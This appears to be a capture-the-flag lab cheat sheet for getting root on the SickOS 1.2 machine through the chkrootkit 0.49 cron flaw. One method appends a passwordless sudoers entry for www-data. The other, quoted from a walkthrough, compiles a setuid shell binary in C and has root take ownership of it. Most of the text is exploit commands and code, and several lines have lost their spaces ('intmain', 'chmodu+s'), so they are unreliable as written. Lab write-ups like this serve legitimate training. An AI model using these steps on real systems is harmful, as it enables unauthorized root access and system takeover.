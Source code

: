# SCENARIO:
## Can write any file that  will be excecutes as root (ie with cron):
### (in this case: chrootkit exploit)

### METHOD 1:

After some research, it has a known vulnerability and can be exploited. I used the following exploit: https://www.exploit-db.com/exploits/33899/
```
	$ echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update
  ```

	A file update would be created in /tmp/. Give that file the following permissions:
  ```
	$ chmod 777 /tmp/update
  ```
	Once done, wait for a couple of minutes and then type:
  ```
	$ sudo su
  ```

Now we have root! Let us head over and read the flag.

### METHOD 2:

http://ch3rn0byl.com/sickos-1-2-walkthrough/

So after doing enumeration on the machine, we can see that there is a “chkrootkit” inside cron.daily. The interesting thing about this is that it’s version 0.49. According to Exploit-DB, if you place a file called “update” in /tmp, chkrootkit will run it with root privileges. Very nice.
Sooo…let’s escalate our privs!
First thing I did was create a little, stupid simple program that sets the setgid and setuid and then spawns a shell. After this, I take advantage of update to set root ownership of this simple, yet deadly binary that will allow me to run it >:D
If all goes well, I will now have a simple tool of mass destruction waiting for me in /tmp.

```
www-data@ubuntu:/tmp$   cat<<EOF>root.c
>intmain(void)
>{
>setgid(0);
>setuid(0);
>execl("/bin/sh","sh",0);
>}
>EOF
```
```
www-data@ubuntu:/tmp$   gcc root.c -o rootme
```
```

www-data@ubuntu:/tmp$   cat<<EOF>update
>#!/bin/bash
>
>chown root/tmp/rootme
>chgrp root/tmp/rootme
>chmodu+s/tmp/rootme
>
>EOF
```
```

www-data@ubuntu:/tmp$   chmod+x update
```


Now, after waiting a minute or so…it’s time to check!

```
www-data@ubuntu:/tmp$ls-al
ls-al
total36
--snip--
-rwsrwxrwx1root     root7235Apr2905:16 rootme
```
Great success!!
